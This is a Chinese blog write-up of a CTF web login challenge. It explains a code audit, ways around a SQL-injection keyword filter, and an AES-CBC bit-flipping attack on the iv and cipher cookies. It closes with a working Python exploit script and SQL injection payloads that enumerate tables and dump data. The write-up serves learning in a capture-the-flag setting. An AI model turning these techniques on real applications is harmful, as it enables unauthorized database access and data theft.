

<!--yml
category: 未分类
date: 2022-04-26 14:17:59
-->

# 一道简单的CTF登录题题解_anquanniu牛油果的博客-CSDN博客_ctf login题目

> 来源：[https://blog.csdn.net/anquanniu/article/details/88238396](https://blog.csdn.net/anquanniu/article/details/88238396)

一、解题感受

这道题50分，在实验吧练习场算比较高分，而且通过率只有14%，比较低的水平。

看到这两个数据，一开始就心生惬意，实在不应该呀！

也是因为心态原因，在发现test.php之后，自以为在SQL注入时只要能截断后面的SQL语句，FLAG就在user里面，尝试了一段时间SQL注入都失败后，有些急躁，然后就早早拜读了pcat大神的攻略。。。

在攻略的帮助下，顺利完成题目。

所以本文主要是在pcat大神的指导下完成，放出来只是想分享一下历程和自我总结。

若有不正之处，还请路过的各位大神不吝指出。

二、事后复盘
心态很重要，关键是享受学习的过程，而不是追求结果，这样的心态才能不知不觉之间势如破竹，而一旦有了得失心，思绪就会被扰乱，进而急躁，就算能得到结果但其实是无用功。

因此，切记：无论是平时还是应试，要保持学习、平和的心态！！！

三、做题过程
1、审题目：《简单的登录》，没有暴露任何信息（有些题目可能透露一些加密算法名字之类）

image.png

2、看题型：Web，简单经典的登录框界面，情不自禁耍起了Web套路：看下源代码，无异常；御剑扫后台，让它扫着的同时继续尝试其他方法；用Burp截获报文，修改id为admin之类敏感字眼，提交表单，看服务器返回的信息，还是无异常；当还在尝试id变换不同敏感字眼时，发现服务器返回了一个tips: test.php；看来御剑也不用忙活了，直接进这个网页看看。

image.png

3、得到一大串代码，接下来就是代码审计了。

image.png

4、代码实现的流程

a、提交上来的id，先进行关键字的过滤，防止SQL注入，包括=、-、#、union、like、procedure等等，如果检测到这些敏感字符，则会直接die并返回显示Sql inject detected。

b、通过过滤的id，服务器会返回两个值：iv与cipher

iv：随机生成的16位值，再经过base64转码

cipher：id序列化、预设的SECRET_KEY（打码）、上面得到的iv值，三者经过aes-128-cbc加密得到cipher值

服务器把iv、cipher设置到cookie然后返回，顺便还显示了一个Hello！

c、如果Post给服务器的报文，没有包括id，而且cookie里有iv和cipher值，则进入函数show_homepage()；

d、 show_homepage()大致过程：将iv、cipher经过base64解码，然后把预设的SECRET_KEY（打码）、iv、cipher经过aes-128-cbc解密，得到plain

e、如果plain无法反序列化，则die并返回plain的base64编码数据；如果可以序列化，则将id值拼接到sql语句中“select * from users limit .$info[‘id’] ,0”，并提交到数据库，返回数据，并附在返回的Hello后。

5、从代码分析可以看出关键就在于这个sql语句 “select * from users limit .$info[‘id’] ,0”

正常的话，无论id输入什么值，都会无功而返，因此只能构造进行sql注入，具体要实现两点：

a、注释掉后面“,0”

b、id=1，从而构造为“select * from users limit 1”

注释做了很多尝试，由于过滤了#、–，所以尝试用%00，用Burp Repeater尝试，将id=1 %00，post提交，然后用返回的iv、cipher值，作为第二次的cookie，然后去掉“id=”再次post，结果能返回Hello!rootzz

（现在写出来比较简单，但是当时在不少细节上进了坑，得细心点看源代码啊）

（另外，从源代码来看，第二次无id Post时，并没有直接传入id，但尽然能得到rootzz，从这可以猜测：此时的id由cipher值解密得到，为后续进一步工作奠定了基础）

image.png

image.png

6、居然不是flag，如果是flag多好啊，就这样美好的结束了，但也许幸福就是来之不易的吧

而且如果就这样能解决战斗的啊，还有一串代码的功能就毫无永无之地了，依据多年的考试经验，题目肯定不会这样出的，因此仔细分析源代码的逻辑，发现有个漏洞，虽然第一次提交id时，做了过滤，但是第二次提交iv和cipher值，是不会做过滤的，在这里跟pcat大神学习了，用cbc翻转一个字节进行攻击。具体如下：

a、提交能经过过滤检测的SQL语句，如id=12

b、结合得到的iv、cipher，用cbc字节翻转cipher对应id=12中2的字节，得到cipher_new，提交iv、cipher_new

c、第二次提交得到plain（如果忘了是啥可以往回看）

d、把iv、plain、‘id=12’序列第一行（16个字节为一行），进行异或操作，得到iv_new

e、把iv_new、cipher_new，去掉id=xx post到服务器即可得到 id=1# 的结果，即Hello!rootzz

7、上一步成功达到偷梁换日的做法，下一步就是把id=12换成我们熟悉的SQL注入语句，在这里要注意的是：注释还是用%00，=用regexp代替，逗号用join代替，union用2nion代替，然后用cbc字节转换，把2换成u。值得注意的是cbc字节转换时的偏移量，最好自己写个php代码算一下前一行相应的位置。而具体代码完全参考pcat大神的做法，这里也贴出来，方便以后查看，再次感谢pcat，特别是在大神帖子留了几次问题，都能得到耐心的解答，谢谢！

image.png

四、源码分享

# -*- coding:utf8 -*-

from base64 import *

import urllib

import requests

import re

def denglu(payload,idx,c1,c2):

```
url=r’http://ctf5.shiyanbar.com/web/jiandan/index.php’

payload = {‘id’: payload}

r = requests.post(url, data=payload)

Set_Cookie=r.headers['Set-Cookie']

iv=re.findall(r”iv=(.*?),”, Set_Cookie)[0]

cipher=re.findall(r”cipher=(.*)”, Set_Cookie)[0]

iv_raw = b64decode(urllib.unquote(iv))

cipher_raw=b64decode(urllib.unquote(cipher))

lst=list(cipher_raw)

lst[idx]=chr(ord(lst[idx])^ord(c1)^ord(c2))

cipher_new=”.join(lst)

cipher_new=urllib.quote(b64encode(cipher_new))

cookie_new={‘iv’: iv,’cipher’:cipher_new}

r = requests.post(url, cookies=cookie_new)

cont=r.content

plain = re.findall(r”base64_decode\(‘(.*?)’\)”, cont)[0]

plain = b64decode(plain)

first=’a:1:{s:2:”id”;s:’

iv_new=”

for i in range(16):

    iv_new += chr(ord(first[i])^ord(plain[i])^ord(iv_raw[i]))

iv_new = urllib.quote(b64encode(iv_new))

cookie_new = {‘iv’: iv_new, ‘cipher’: cipher_new}

r = requests.post(url, cookies=cookie_new)

rcont = r.content

print rcont 
```

denglu(’12′,4,’2′,’#’)

denglu(’0 2nion select * from((select 1)a join (select 2)b join (select 3)c);’+chr(0),6,’2′,’u’)

denglu(’0 2nion select * from((select 1)a join (select group_concat(table_name) from information_schema.tables where table_schema regexp database())b join (select 3)c);’+chr(0),7,’2′,’u’)

denglu(“0 2nion select * from((select 1)a join (select group_concat(column_name) from information_schema.columns where table_name regexp ‘you_want’)b join (select 3)c);”+chr(0),7,’2′,’u’)

denglu(“0 2nion select * from((select 1)a join (select * from you_want)b join (select 3)c);”+chr(0),6,’2′,’u’)

关于CTF入门的一些简单题可以从网上找，在线教程的话推荐安全牛课堂的[CTF从入门到提升](https://edu.aqniu.com/course/8954?from=cs)，在校大学生可以申请学习。
